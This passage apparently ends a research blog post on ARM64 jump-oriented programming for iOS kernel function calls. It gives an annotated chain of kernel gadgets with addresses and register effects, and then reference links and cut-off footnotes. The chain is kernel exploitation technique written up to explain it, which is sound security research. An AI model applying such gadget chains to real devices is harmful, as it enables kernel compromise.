```

GADGET_POPULATE_2 (0xfffffff006ce40e4):
		ldp x2, x3, [x23]
		ldp x4, x5, [x23, #0x10]
		ldp x6, x7, [x23, #0x20]
		ldp x9, x10, [x23, #0x30]
		ldp x11, x12, [x23, #0x40]
		stp x22, x21, [sp, #0x20]
		stp x11, x12, [sp, #0x10]
		stp x9, x10, [sp]
		mov x0, x19
		mov x1, x20
		blr x8
	x0 = REGION_POPULATE_VALUES
	x1 = JOP_CHAIN_2
	x2 = REGION_POPULATE_VALUES[0] = REGION_1
	x3 = REGION_POPULATE_VALUES[0x8] = ARGUMENT_0
	x4 = REGION_POPULATE_VALUES[0x10] = ARGUMENT_13
	x5 = REGION_POPULATE_VALUES[0x18] = REGION_ARGUMENTS_2_TO_11
	x6 = REGION_POPULATE_VALUES[0x20] = ARGUMENT_1
	x7 = REGION_POPULATE_VALUES[0x28] = FUNCTION
	x9 = REGION_POPULATE_VALUES[0x30] = GADGET_CALL_FUNCTION_1
	x10 = REGION_POPULATE_VALUES[0x38] = GADGET_POPULATE_2
	x11 = REGION_POPULATE_VALUES[0x40]
	x12 = REGION_POPULATE_VALUES[0x48] = ARGUMENT_12
	pc = JOP_DISPATCH
	x2 = MOV_X19_X3__BR_X8
	pc = MOV_X19_X3__BR_X8

;; Now that we've populated the registers, we just need to move the values to
;; where they belong.

MOV_X19_X3__BR_X8 (0xfffffff0068804cc):
		mov x19, x3
		br x8
	x19 = ARGUMENT_0
	pc = JOP_DISPATCH
	x2 = MOV_X20_X6__BLR_X8
	pc = MOV_X20_X6__BLR_X8

MOV_X20_X6__BLR_X8 (0xfffffff0070e3738):
		mov x20, x6
		blr x8
	x20 = ARGUMENT_1
	pc = JOP_DISPATCH
	x2 = MOV_X21_X4__BLR_X8
	pc = MOV_X21_X4__BLR_X8

MOV_X21_X4__BLR_X8 (0xfffffff00677a398):
		mov x21, x4
		blr x8
	x21 = ARGUMENT_13
	pc = JOP_DISPATCH
	x2 = MOV_X22_X12__BLR_X8
	pc = MOV_X22_X12__BLR_X8

MOV_X22_X12__BLR_X8 (0xfffffff0067f9dfc):
		mov x22, x12
		blr x8
	x22 = ARGUMENT_12
	pc = JOP_DISPATCH
	x2 = MOV_X23_X5__BR_X8
	pc = MOV_X23_X5__BR_X8
```

[call_strategy_1.c]: https://github.com/bazad/memctl/blob/2049ddea16ed13ea92aca8a2576b216da90d8763/src/libmemctl/arm64/jop/call_strategy_1.c
[call_strategy_3.c]: https://github.com/bazad/memctl/blob/2049ddea16ed13ea92aca8a2576b216da90d8763/src/libmemctl/arm64/jop/call_strategy_3.c
[call_strategy_5.c]: https://github.com/bazad/memctl/blob/2049ddea16ed13ea92aca8a2576b216da90d8763/src/libmemctl/arm64/jop/call_strategy_5.c
[iokit_user_client_trap]: https://conference.hitb.org/hitbsecconf2013kul/materials/D2T2%20-%20Stefan%20Esser%20-%20Tales%20from%20iOS%206%20Exploitation%20and%20iOS%207%20Security%20Changes.pdf
[Procedure Call Standard for the ARM 64-bit Architecture]: http://infocenter.arm.com/help/topic/com.arm.doc.ihi0055b/IHI0055B_aapcs64.pdf
[ARM64 Function Calling Conventions]: https://developer.apple.com/library/content/documentation/Xcode/Conceptual/iPhoneOSABIReference/Articles/ARM64FunctionCallingConventions.html
[jump-oriented programming]: https://repository.lib.ncsu.edu/bitstream/handle/1840.4/4135/TR-2010-8.pdf
[ipsw.me]: https://ipsw.me
[joker]: http://newosxbook.com/tools/joker.html
[memctl]: https://github.com/bazad/memctl
[ROPgadget]: https://github.com/JonathanSalwan/ROPgadget
[Capstone]: https://github.com/aquynh/capstone
[^1]: I've gotten in the habit of referring to jump-oriented programs as "JOP programs", despite
[^2]: Of course, if you have a kernel memory read/write primitive, as I'm assuming for this post,
[^3]: I'm not sure why Apple refers to its architecture as arm64 while ARM refers to the 64-bit
[^4]: My ROPgadget patch adds a few lines so that all segments and sections marked with the execute
[^5]: Here we are assuming that all the saved arguments in the structure are 64 bits, which means
[^6]: The first two gadgets might initially seem useful because they load register `x8`, the
